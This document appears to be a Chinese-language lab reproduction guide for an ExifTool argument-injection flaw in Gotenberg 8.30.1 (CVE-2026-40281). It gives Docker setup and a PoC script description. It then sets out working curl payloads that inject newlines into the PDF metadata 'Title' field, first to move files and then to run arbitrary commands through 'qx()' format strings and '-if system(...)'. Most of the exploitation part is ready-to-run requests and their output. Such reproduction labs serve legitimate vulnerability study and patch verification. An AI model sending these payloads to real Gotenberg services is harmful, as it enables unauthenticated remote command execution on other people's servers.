


# Gotenberg ExifTool 参数注入漏洞（CVE-2026-40281）

Gotenberg 是一个基于 Docker 的无状态 API 服务，用于将 Office 文档、HTML 页面、Markdown 文件等格式转换为 PDF。

Gotenberg 8.30.1 及更早版本的 PDF 元数据写入接口存在 ExifTool 参数注入漏洞。8.30.1 中的修复只检查元数据键名，未校验元数据值，未经身份验证的攻击者可通过值中的换行符注入额外参数，操纵文件或以 Gotenberg 进程的权限执行任意命令。该漏洞在 8.31.0 中修复。

参考链接：

- <https://github.com/gotenberg/gotenberg/security/advisories/GHSA-q7r4-hc83-hf2q>
- <https://nvd.nist.gov/vuln/detail/CVE-2026-40281>
- <https://github.com/gotenberg/gotenberg/releases/tag/v8.31.0>
- <https://exiftool.org/TagNames/Extra.html>
- <https://exiftool.org/exiftool_pod.html#if-EXPR>

## 环境搭建

执行如下命令启动 Gotenberg 8.30.1：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:3000/health`，返回包含 `"status":"up"` 的 JSON 响应即表示服务已就绪。

## 漏洞复现

元数据写入接口接受任意有效的 PDF，测试文件并不需要由 Gotenberg 自己生成。脚本 [poc.py](poc.py) 会在本地构造一个最小 PDF，全程不接触目标服务：

```
python3 poc.py -o test.pdf
```

执行后会在当前目录生成 `test.pdf`。

随后提交 PDF 文件和普通的 `Title` 值，查看元数据写入接口的正常响应：

```
curl -s -o benign.pdf -w 'HTTP %{http_code}\n' \
    -F 'files=@test.pdf;type=application/pdf' \
    --form-string 'metadata={"Title":"benign title"}' \
    http://your-ip:3000/forms/pdfengines/metadata/write
```

服务端返回 `HTTP 200`，写入新标题的 PDF 保存为 `benign.pdf`。

该接口检查了元数据键名，但未过滤值中的换行符。在 `Title` 值中加入换行符即可注入额外的 ExifTool 参数：

```
curl -s -w '\nHTTP %{http_code}\n' \
    -F 'files=@test.pdf;type=application/pdf' \
    --form-string 'metadata={"Title":"test\n-FileName=/tmp/inject_proof"}' \
    http://your-ip:3000/forms/pdfengines/metadata/write
```

ExifTool 将 `-Title=test` 和 `-FileName=/tmp/inject_proof` 作为两个参数处理，将 PDF 移动到 `/tmp/inject_proof`。Gotenberg 无法在原路径找到输出文件，因此返回 `HTTP 404`。已修复的 Gotenberg（8.31.0 及以上）会拒绝含换行符的元数据值，返回 `HTTP 400`。在容器内查看该文件：

```
docker compose exec web ls -l /tmp/inject_proof
```

可以看到，处理后的 PDF 已出现在 `/tmp/inject_proof`。



注入的参数还可以让漏洞升级为命令执行。ExifTool 支持 `-TAG<格式串` 的赋值语法，用格式串的求值结果设置标签值，而格式串中的 `${TAG;Perl 表达式}` 会被当作 Perl 代码执行，其中 `qx(命令)` 是反引号的等价写法，用于捕获命令输出。脚本 [poc.py](poc.py) 可以针对任意命令生成 PoC PDF：指定 `-o` 时只生成文件并打印等效请求，发包仍然交给 curl；指定 `-u` 时则由脚本直接发包。例如让目标以 `gotenberg` 用户身份执行 `id`：

```
python3 poc.py -o poc.pdf -c id
```

脚本完全离线工作：它生成 `poc.pdf`，并打印出下面两条已嵌入 `id` 的请求，发包仍然交给 curl 完成：

```
[+] PoC PDF written to poc.pdf (329 bytes)
[*] Command to execute on the target: id
[*] Write the injected metadata into the PDF, expecting HTTP 200:

curl -s -o rce.pdf -w 'HTTP %{http_code}\n' \
    -F 'files=@poc.pdf;type=application/pdf' \
    --form-string 'metadata={"Title":"x\n-Title<${PDFVersion;$_=qx(id)}"}' \
    http://127.0.0.1:3000/forms/pdfengines/metadata/write

[*] Read back the Title of the returned PDF to obtain the command output:

curl -s -F 'files=@rce.pdf' http://127.0.0.1:3000/forms/pdfengines/metadata/read
```

写入请求会返回 `HTTP 200` 和一个看起来完全正常的 PDF，其 `Title` 已经是 `id` 的输出；读取请求以 JSON 形式返回其中的元数据，说明命令以 `gotenberg` 用户的权限执行：

```
{"rce.pdf":{ ... "Title":"uid=1001(gotenberg) gid=1001(gotenberg) groups=1001(gotenberg),0(root)" ...}}
```

也可以改用 `-u` 让脚本直接发送上述两条请求并打印命令输出：

```
python3 poc.py -u http://your-ip:3000 -c id
```

```
[*] Target: http://your-ip:3000
[*] Command to execute on the target: id
[+] Metadata written (HTTP 200), reading back the Title of the returned PDF
[+] Command output:
    uid=1001(gotenberg) gid=1001(gotenberg) groups=1001(gotenberg),0(root)
```



可注入的并不限于标签赋值，任何 ExifTool 参数都可以注入，例如 `-if EXPR` 这样的命令行选项——它会对每个处理的文件求值一个 Perl 条件表达式。发送如下请求，通过条件求值执行 `id` 并把输出写入 `/tmp/pwn`：

```
curl -s -o /dev/null -w 'HTTP %{http_code}\n' \
    -F 'files=@test.pdf;type=application/pdf' \
    --form-string 'metadata={"Title":"x\n-if\nsystem(\"id>/tmp/pwn 2>&1\")"}' \
    http://your-ip:3000/forms/pdfengines/metadata/write
```

命令以 `gotenberg` 用户身份执行。由于 `system` 返回 `0`，条件失败，ExifTool 跳过该文件，Gotenberg 返回 `HTTP 500`。在容器内查看命令输出：

```
docker compose exec web cat /tmp/pwn
```
